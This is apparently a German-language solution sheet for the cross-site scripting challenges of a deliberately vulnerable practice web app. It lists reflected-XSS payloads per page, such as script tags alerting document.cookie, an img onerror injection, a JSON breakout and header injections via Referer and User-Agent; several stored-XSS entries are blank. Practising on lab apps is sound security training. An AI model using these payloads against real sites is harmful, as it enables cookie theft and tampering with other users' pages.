 ### // A3 - CROSS	SITE	SCRIPTING	(XSS) //
---
##### Cross-Site Scripting - Reflected (GET)
xss_get.php <br>
~~~
<script>alert(document.cookie)</script>
~~~
---
##### Cross-Site Scripting - Reflected (POST)
xss_post.php
~~~
<script>alert(document.cookie)</script>
~~~
---
##### Cross-Site Scripting - Reflected (JSON)
xss_json.php
~~~
"}]}';prompt(0)</script>
~~~
---
##### Cross-Site Scripting - Reflected (AJAX/JSON)
xss_ajax_2-1.php
~~~
&lt;img src=&apos;#&apos; onerror=&apos;alert(1)&apos;&gt;
~~~
---
##### Cross-Site Scripting - Reflected (AJAX/XML)
xss_ajax_1-1.php
~~~
&lt;img src=&apos;#&apos; onerror=&apos;alert(1)&apos;&gt;
~~~
---
##### Cross-Site Scripting - Reflected (Back Button)
Referer header feld:
~~~
Referer: ';alert(1);'
~~~
---
##### Cross-Site Scripting - Reflected (Custom Header)
Im header folgendes beifügen:
~~~
<script>alert(1)</script>
~~~
---
##### Cross-Site Scripting - Reflected (Eval)
~~~
date=alert(1)
~~~
---
##### Cross-Site Scripting - Reflected (HREF)
~~~
Referer: <script>alert(1)</script>
~~~
---
##### Cross-Site Scripting - Reflected (Login Form)
---
##### Cross-Site Scripting - Reflected (phpMyAdmin)
---
##### Cross-Site Scripting - Reflected (PHP_SELF)
---
##### Cross-Site Scripting - Reflected (Referer)
---
##### Cross-Site Scripting - Reflected (User-Agent)
~~~
User-Agent: <script>alert(1)</script>
~~~
---
##### Cross-Site Scripting - Stored (Blog)
---
##### Cross-Site Scripting - Stored (Change Secret)
---
##### Cross-Site Scripting - Stored (Cookies)
---
##### Cross-Site Scripting - Stored (SQLiteManager)
---
##### Cross-Site Scripting - Stored (User-Agent)
